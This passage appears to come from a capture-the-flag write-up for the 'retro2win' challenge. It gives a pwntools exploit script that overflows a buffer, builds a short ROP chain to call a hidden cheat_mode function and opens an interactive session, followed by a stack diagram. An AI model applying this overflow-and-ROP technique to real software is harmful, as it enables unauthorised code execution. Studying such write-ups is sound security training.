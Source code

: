 ```python
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

    b *0x400829
    c
''')

p = remote('retro2win.ctf.intigriti.io',1338) if args.REMOTE else process(argv=[exe.path], aslr=False)
if args.GDB:
    GDB()
    input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

pop_rdi = 0x4009b3
pop_rsi_r5 = 0x4009b1
cheat_mode = 0x400736
dummy_value = 0x4242424242424242

pay = b'A' * 16   # fill in buffer
pay += b'B' * 8   # overwrite saved rbp
pay += p64(pop_rdi) + p64(0x2323232323232323)
pay += p64(pop_rsi_r5) + p64(0x4242424242424242) + p64(dummy_value)
pay += p64(cheat_mode)

sla(b'option:', b'1337')
sla(b'cheatcode:', pay)

p.interactive()
```

When we exit from **enter_cheatcode()** it will **return** to **pop_rdi** to **rop_rsi_r5** and then **cheat_code()** and the stack will look like this:

```bash
+---------------+       +---------------+
|  ........     | ----> |  AAAAAAAA     |
|---------------|       |---------------|
|  saved rbp    |       |  BBBBBBBB     |
|---------------|       |---------------|
|  saved rip    |       |  pop_rdi      |
|---------------|       |---------------|
|               |       |  0x2323.....  |
|---------------|       |---------------|
|               |       |  pop_rsi      |
|---------------|       |---------------|
|               |       |  0x4242.....  |
|---------------|       |---------------|
|               |       |  dummy_value  |    <--- pop r5
|---------------|       |---------------|
|               |       |  cheat_mode   |
|               |       |               |
+---------------+       +---------------+

```
